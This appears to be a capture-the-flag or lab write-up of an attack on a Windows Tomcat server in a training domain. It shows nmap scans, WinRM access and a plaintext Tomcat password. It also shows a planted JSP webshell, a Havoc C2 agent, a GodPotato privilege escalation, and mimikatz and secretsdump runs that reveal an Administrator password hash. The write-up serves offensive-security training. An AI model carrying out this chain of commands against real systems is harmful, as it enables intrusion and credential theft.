Same here but seems like no success so we can move on?



And more from the linux wordpress machine:

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.15.12
./nmap -F 10.9.15.12

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:33 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.15.12
Host is up (0.00045s latency).
Not shown: 241 closed ports
PORT     STATE SERVICE
135/tcp  open  epmap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
www-data@corewebdl:/tmp$
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=corewebtw.core.cyber.local
| Issuer: commonName=corewebtw.core.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:42:19
| Not valid after:  2024-12-13T09:42:19
| MD5:   bc28:b648:8128:d023:56a3:52fb:d99c:369e
| SHA-1: ae9a:1884:7849:9b01:c2f4:3725:2c2f:4c00:2327:3ea0
| -----BEGIN CERTIFICATE-----
| MIIC+DCCAeCgAwIBAgIQK6wfwebUt4JLrT46jMQF+jANBgkqhkiG9w0BAQsFADAl
| MSMwIQYDVQQDExpjb3Jld2VidHcuY29yZS5jeWJlci5sb2NhbDAeFw0yNDA2MTMw
| OTQyMTlaFw0yNDEyMTMwOTQyMTlaMCUxIzAhBgNVBAMTGmNvcmV3ZWJ0dy5jb3Jl
| LmN5YmVyLmxvY2FsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiEud
| ghSwPi8+YUila8LTGsrCC8dek+al2rtyiz2iXWnWR1G6qblWhwCOHTu/4yeVOyn4
| 6Z9nnDCvQb0R4PxmojsuGfMjM/aLRfN1kiv0QXzAs5INtz5jtt/OSCkfh6i1So8R
| lQW94WqUCiTM+YYrEwKvfONh68q9y9y0ICyKKA9SVV1kxc/QwZgjYaID9iEf4rZe
| 9UBdM40yG7JDaAk5RCD/228urwxz7GfBfhc8rClPd1Q+ZliW3AE2Rihmx4NKIPw0
| UrPOk4oQATHxND33oLmfCMqDJ8J3eGeLqt8Cgi3u0I/hjti51XDlUnCxVQO/QH72
| gFFembpilFNKcrC4lQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNV
| HQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACon4AWfbxkuRyLU3GLMPZSEhFwr
| 4u2uRtbnYO9qhZ1LV+njHfT2a6oU6er5lDB/OGUb7GeN+Hah7vZB6+pNhuCUFbFl
| fTyPO4L+LLxR4XChjwdpeLbHHZJ5lHFmPdL+Y2GxfxCyWVl91JQOJBSBEKJgjotT
| /AoC5L3y5ovPt6h1o4rTzNHK78Wq8I6mnCMoYM2Z5UhIAg/3WF21aj/efMR5AUU8
| 1FB1f/JR/9LC4dkj14WBM9NigHpzpHN4A/cEZUugaBpASaR6iRmpuaP7JGTuCQeL
| VLXpn4Bg+OcmsunX/uy532kIwJt0B/h+/4YsFGjJls6vYun8kB/hv64EG8o=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:15:00+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: core
|   NetBIOS_Domain_Name: core
|   NetBIOS_Computer_Name: COREWEBTW
|   DNS_Domain_Name: core.cyber.local
|   DNS_Computer_Name: corewebtw.core.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-14T14:14:49+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8009/tcp  open  ajp13         syn-ack ttl 64 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http          syn-ack ttl 64 Apache Tomcat 8.5.12
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.12
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

&nbsp;

# Back on track

Now with Steven Sanchez's credentials I guess we can move here? And seems like Steven can WIN-RM nice!



And now since we know that the flag is called *"Curiosity killed the cat"* I can guess is about the Apcache tomcat?

But looking around seems like only admin is avaliable:



And seems like indeed the config folder is on the root path?



and we can get a password baby!

```
*Evil-WinRM* PS C:\Tomcat\conf> cat tomcat-users.xml
<?xml version='1.0' encoding='cp1252'?>

<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<user username="tomcat" password="y4mEcAmk!%9j" roles="manager-gui" />
</tomcat-users>
```

Now I guess from this server we want to export this account?



So back on drawing table we can see that apache is 8.5.12:



And seems like the manager status is not active?



Now before doing anything I will check with Winpeas.bat exactly what Can I do?

```
//No strange software
 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Common Files
Common Files
internet explorer
internet explorer
LAPS
Microsoft.NET
PackageManagement
VMware
Windows Defender
Windows Defender
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\java8\
    InstallLocation    REG_SZ    C:\Program Files\VMware\VMware Tools\
```

If I upload Powerup.ps1 and run a whole check via Invoke-Allchecks" we can see that all users can write under java folder?

```
*Evil-WinRM* PS C:\Temp> invoke-allchecks
Access denied 
At C:\Temp\PowerUp.ps1:2066 char:21
+     $VulnServices = Get-WmiObject -Class win32_service | Where-Object ...
+                     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Get-WmiObject], ManagementException
    + FullyQualifiedErrorId : GetWMIManagementException,Microsoft.PowerShell.Commands.GetWmiObjectCommand
Access denied 
At C:\Temp\PowerUp.ps1:2133 char:5
+     Get-WMIObject -Class win32_service | Where-Object {$_ -and $_.pat ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Get-WmiObject], ManagementException
    + FullyQualifiedErrorId : GetWMIManagementException,Microsoft.PowerShell.Commands.GetWmiObjectCommand
Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
At C:\Temp\PowerUp.ps1:2189 char:5
+     Get-Service | Test-ServiceDaclPermission -PermissionSet 'ChangeCo ...
+     ~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand


ModifiablePath    : C:\java8\bin
IdentityReference : BUILTIN\Users
Permissions       : AppendData/AddSubdirectory
%PATH%            : c:\java8\bin
Name              : c:\java8\bin
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\java8\bin\wlbsctrl.dll'

ModifiablePath    : C:\java8\bin
IdentityReference : BUILTIN\Users
Permissions       : WriteData/AddFile
%PATH%            : c:\java8\bin
Name              : c:\java8\bin
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\java8\bin\wlbsctrl.dll'

ModifiablePath    : C:\Users\Steven.Sanchez\AppData\Local\Microsoft\WindowsApps
IdentityReference : core\Steven.Sanchez
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Steven.Sanchez\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Steven.Sanchez\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Steven.Sanchez\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    : core
DefaultUserName      : Administrator
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons

Changed   : [BLANK]
UserNames : [BLANK]
NewName   : [BLANK]
Passwords : [BLANK]
File      : C:\ProgramData\Microsoft\Group Policy\History\{A827437F-5EA9-45ED-BD66-9F2EFD73B1E1}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

And checking the version we can see the specific version of Java:

```
*Evil-WinRM* PS C:\java8> cat release
JAVA_VERSION="1.8.0_231"
OS_NAME="Windows"
OS_VERSION="5.2"
OS_ARCH="amd64"
SOURCE=" .:3db42558212d corba:c65f68a681eb deploy:96dcafee867f hotspot:38173d2ec860 hotspot/make/closed:3ecea8bb15e3 hotspot/src/closed:4175130632dc install:7ff441551d11 jaxp:fc2c3d911d6d jaxws:d9e076c20420 jdk:85b05e55f123 jdk/make/closed:98f8f33e5b20 jdk/src/closed:f3d983786898 langtools:b9ea2168ffb1 nashorn:cd5f02bbeded"
```

Seems like there is a webapps folder?



&nbsp;

# Road to SVC_Apache

Now since I don't see anything I am wondering if we can upload a webshell somehow?



I will try to use this one:

https://github.com/BustedSec/webshell/blob/master/webshell.war

Seems like we have permissions!

```
*Evil-WinRM* PS C:\tomcat\webapps\Root> echo "Culo!" > test.txt
*Evil-WinRM* PS C:\tomcat\webapps\Root> ls


    Directory: C:\tomcat\webapps\Root


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   8:45 AM                WEB-INF
-a----         3/8/2017   5:42 PM          26726 asf-logo-wide.svg
-a----         3/8/2017   5:42 PM            713 bg-button.png
-a----         3/8/2017   5:42 PM           1918 bg-middle.png
-a----         3/8/2017   5:42 PM           1392 bg-nav-item.png
-a----         3/8/2017   5:42 PM           1401 bg-nav.png
-a----         3/8/2017   5:42 PM           3103 bg-upper.png
-a----         3/8/2017   5:42 PM          21630 favicon.ico
-a----         3/8/2017   5:42 PM          12502 index.jsp
-a----         3/8/2017   5:42 PM           7241 RELEASE-NOTES.txt
-a----        6/19/2024   9:35 AM             16 test.txt
-a----         3/8/2017   5:42 PM           2376 tomcat-power.gif
-a----         3/8/2017   5:42 PM           5931 tomcat.css
-a----         3/8/2017   5:42 PM           2066 tomcat.gif
-a----         3/8/2017   5:42 PM           5103 tomcat.png
-a----         3/8/2017   5:42 PM          68761 tomcat.svg
```

And we can reach the file!  


This mean that now we need to find a jsp/war file that works and place into to make it work:

```
Path
----
C:\tomcat\webapps\Root
```

But then I decided to use this JSP: https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp

Placing into the folder:



And we can now curl to get access!



Now I will get a nicer shell via powershell revshell!





And now I can upload Havoc to get Mimikatz and same other stuffs!

```
PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/19/2024   9:07 AM         600580 PowerUp.ps1
-a----        6/19/2024   9:55 AM         102400 tomcat.exe
-a----        6/19/2024   8:56 AM          36179 winPEAS.bat


PS C:\temp> ./tomcat.exe
PS C:\temp>
```

And now we have a connection baby!



Now without further do I will run SAMDUMP and get all the juicy stuff here.., Since I called the shell as NT Networks I have to use mimikatz.exe to perform the impersonation since havoc can't do it by default.

```
19/06/2024 16:05:37 [yovecio] Demon » powershell "C:\temp\mimikatz.exe "token::elevate" "exit""
[*] [210853CF] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [252 bytes]
[+] Received Output [534 bytes]:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM


mimikatz(commandline) # exit
Bye!
```

If we try to dump the SAM nothing comes our so far!

```
9/06/2024 16:07:16 [yovecio] Demon » powershell "C:\temp\mimikatz.exe "token::elevate" "lsadump::sam" "exit""
[*] [E8CA361D] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [282 bytes]
[+] Received Output [813 bytes]:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM


mimikatz(commandline) # lsadump::sam
Domain : COREWEBTW
SysKey : ad842e2a0985bc9563e46c5a4f9ec902
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz(commandline) # exit
Bye!
```

Same for MSV!

```
19/06/2024 16:08:24 [yovecio] Demon » powershell "C:\temp\mimikatz.exe "token::elevate" "sekurlsa::msv" "exit""
[*] [1C5E82B7] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [284 bytes]
[+] Received Output [641 bytes]:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM


mimikatz(commandline) # sekurlsa::msv
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz(commandline) # exit
Bye!
```

But what about secrets? But here was failing via Havoc So i had to recall the listnerer via Godpotato so it would spawn as NTSystem instead!

```
PS C:\temp> GodPotato -cmd "cmd /c whoami"
PS C:\temp> ./GodPotato -cmd "cmd /c C:\temp\tomcat.exe"
```



And now parsing time!

```
──(root㉿kali-bello)-[/home/…/4423d626/Download/C:/temp]
└─# impacket-secretsdump -security security.txt -system systemic.txt -sam samantha.txt LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xad842e2a0985bc9563e46c5a4f9ec902
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823284d2bc89d23ba34895371304837f:::
